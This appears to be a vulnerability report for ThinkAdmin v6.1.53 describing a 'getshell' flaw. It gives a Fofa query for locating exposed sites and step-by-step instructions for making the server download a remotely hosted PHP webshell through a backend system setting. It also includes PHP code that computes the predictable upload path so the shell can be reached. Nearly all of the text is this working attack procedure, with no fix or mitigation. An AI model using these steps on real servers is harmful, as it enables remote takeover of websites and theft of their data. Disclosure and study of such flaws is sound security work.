 ThinkAdmin Logical defect getshell



Project Introduction

ThinkAdmin is a product that follows [MIT]（ https://mit-license.org/ ）Protocol open source rapid development framework, based on the latest version of  ThinkPHP6 , a minimalist backend management system (compatible with ThinkPHP8)

Official website: https://thinkadmin.top/



Audit version: ThinkAdmin Version v6.1.53

![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml7448\wps1.jpg) 

 

Fofa : body="/admin/api.plugs/script"

![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml7448\wps2.jpg) 

Logical defect getshell
Recurrence of vulnerabilities
Log in to the backend to set system parameters

![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml7448\wps18.jpg) 

Fill in the URL of a pure static downloadable PHP webshell file here
That is, the webshell download path
Click to save the configuration
After saving, calculate the path to download to the server
The script is as follows

`function name(string $url, string $ext = '', string $pre = '', string $fun = 'md5'): string

{

  [$hah, $ext] = [$fun($url), trim($ext ?: pathinfo($url, 4), '.\\/')];

  $attr = [trim($pre, '.\\/'), substr($hah, 0, 2), substr($hah, 2, 30)];

  return trim(join('/', $attr), '/') . '.' . strtolower($ext ?: 'tmp');

}

 

$url = "webshell path";

 

echo '/upload/'.name($url, '', 'down/');`



 

![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml7448\wps20.jpg) 

Use the above calculation to calculate the URL variable as the URL for setting system parameters
Splicing paths is sufficient

![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml7448\wps21.jpg) 